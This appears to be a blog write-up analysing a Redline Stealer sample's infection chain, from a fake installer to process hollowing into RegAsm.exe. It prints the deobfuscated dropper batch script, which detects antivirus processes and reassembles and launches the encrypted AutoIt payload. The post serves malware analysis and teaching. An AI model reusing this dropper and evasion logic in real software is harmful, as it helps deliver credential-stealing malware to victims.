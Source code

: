 ## Redline Stealer Infection Chain

Came across a sample from Malware Bazaar.

SHA256: 292a43281a8146f248fb71d92e5e32597c587fe003ac3a2f3ac8227331062120

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/be015d35-f30c-46f6-bc13-a0d0e9bd6a8b)

Detect It Easy recognized the exe file as an Installer, also there were some mentions of Autoit on VirusTotal.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f3e700bb-fad6-4640-a2a3-13f4a973e34c)

There’s a bunch of garbled strings and it is also packed, typical for installers. IAT and API string references seem normal.

I read up on [eSentire’s Case Study](https://www.esentire.com/blog/esentire-threat-intelligence-malware-analysis-redline-stealer), and the initial loader for Redline are known to take form of fake installers like TeamViewer, AnyDesk, etc. A similar variant’s infection chain looks like the following, so I tried to base my analysis around this:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a9c6f5b0-f192-4959-ab4b-562aea0c1849)

In IDA, the main functionality of the program lies in `sub_4015A0`, which handles file creation, deletion, setting up uninstallers, inserting registry keys, creating directories, etc. There is an interesting `ShellExecuteW` API call with dynamically resolved strings, and when looking through Tiny Tracer logs, there was one call to this exact offset.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/8e0fc32a-a10a-481c-a513-d726df2fa6ac)

Tiny Tracer ouptut seems to stop at `ShellExecuteW` also:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cefd1e56-adae-4cd5-b9aa-fd9cf036248e)

I couldn’t find any other process related APIs being used, so decided to see what is passed into the function. It looks like it’s copying a file `Wrist` into `Wrist.cmd` in the user’s Temp directory and executing it.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a8a71893-963f-46d9-b93d-2be2398fe8db)

`Wrist.cmd` is an obfuscated batch script.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/78fb7904-9449-4408-bb74-13801ae5b03b)

After deobfuscating, we get:

```powershell
Set oobjxQdyOhgEZ=Promptly.pif
Set MXpzMKVMvPYNjICbYkFdgBg=  
tasklist   | findstr /I "wrsa.exe opssvc.exe"  1>NUL  & if not errorlevel 1 ping -n 196 127.0.0.1
Set /a Attend=802403
tasklist   | findstr /I "avastui.exe avgui.exe nswscsvc.exe sophoshealth.exe"   & if not errorlevel 1 Set oobjxQdyOhgEZ=AutoIt3.exe   & Set MXpzMKVMvPYNjICbYkFdgBg=.a3x
cmd /c md %Attend%
findstr /V "LyingBaghdadProgrammersAtom" Fisher  1>%Attend%\%oobjxQdyOhgEZ%
copy /b %Attend%\%oobjxQdyOhgEZ% + Collected + Thomas + Mandate + Formed + Notify + Fusion + Hs + Joke + Uni + Painful + Harmful + Sullivan + Exhibition + Monster + Dated + Senegal + Maritime + Token + Lovely + Essentially + Verde + Fork + Mumbai + Horse %Attend%\%oobjxQdyOhgEZ%
cmd /c copy /b Drew + Folder + %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
start /I %Attend%\%oobjxQdyOhgEZ% %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
timeout 5
```

This checks for processes `wrsa.exe` and `opssvc.exe`, if found, ping the localhost 196 times. It also checks for antivirus services on the system `avastui.exe, avgui.exe, nswscsvc.exe sophoshealth.exe`, if found, `oobjxQdyOhgEZ` is set to `AutoIt3.exe` instead of `Promptly.pif`. It creates a directory named `802403`, and in there, constructs a file Promptly.pif or AutoIt3.exe using contents from different files i.e. Collected, Thomas, Mandate, …, and attempt to run it, passing in the file `802403\U` as an argument. 

During the execution of the initial installer, we can see that it drops the fragmented AutoIt3.exe files into the Temp directory. Here’s one of the fragments being created, seen in Tiny Tracer:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/6e096cc9-845d-45d8-9c1b-6243b8e52005)

Anyways, this seems like a legitimate AutoIt3 interpreter based on VirusTotal reports. However, the payload in `802403\U` looks encrypted. After some research, the last stage typically involves some sort of injection technique and after some tinkering and setting breakpoints on `CreateProcess`, `OpenProcess`and `NtResumeThread`, etc. what happens is the AutoIt3 interpreter decrypts the payload in memory and does process hollowing on `RegAsm.exe`.  And its parent process is `explorer.exe`, weird. I suspended the process quickly after the payload is injected and used pe-sieve to dump out suspicious memory regions. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cd0395ac-84a9-494a-8efb-543cde124c26)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ca08fb7d-b7bc-490e-b79a-dee6630ec7cc)

The memory region at `0xdb0000` seems promising. 

After unmapping it in PE-bear, it looks like a .NET file, so opening it up in dnSpy, we are greeted with the final stage of the malware!

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/9805e5d4-3ac7-4cde-b8a3-5bf7591a0d9f)

But how did the decryption happen of the payload happen? Going back to executing `Promptly.pif` (or AutoIt3.exe), there was a `VirtualAlloc` call and a decryption routine shellcode written to that memory at `0x112000`, so I enabled a memory breakpoint on that address to catch the execution of that stub.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/79705fed-7511-4cbf-b9ac-6c6670464bd8)

Dumping the shellcode and opening it in IDA, we can see 2 functionalities related to RC4, the initialization stage in `sub_2` and the XOR stage in `sub_93`. (learned this from Zero2Automated lol)

`sub_2`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ce203bc6-7a4f-4cfa-b09e-4bfb919241ca)

`sub_93`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f6125b26-114e-4651-98b1-f3c1c8fa1d4a)

Looking back at the arguments being passed into `sub_2`, the RC4 key is `8518543726503553863083291645022577371`.

Setting another breakpoint at the end of the decryption routine, we can see the encrypted blob that was decrypted at the same address `0x4790048` (this was on a second run because I messed up the first run).

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a4a6ed0-82eb-46bc-a636-cc29b17f22db)

But this PE file looks slightly different than the one I dumped previously. But thanks to a blog post from c3rb3ru5d3d53c, turns out it’s just compressed, and will be decompressed later and injected into a process, in my case `RegAsm.exe`.  Technically, I should run API monitor and track whichever API call was used for decompression and injection techniques, but I’m kinda lazy. But here’s a [list](https://github.com/cuckoosandbox/cuckoo/wiki/Hooked-APIs-and-Categories) of generic API calls you enable for monitoring.

Anyways this is just a quick summary on how to get to the Redline code and demoing how the infection chain works !!
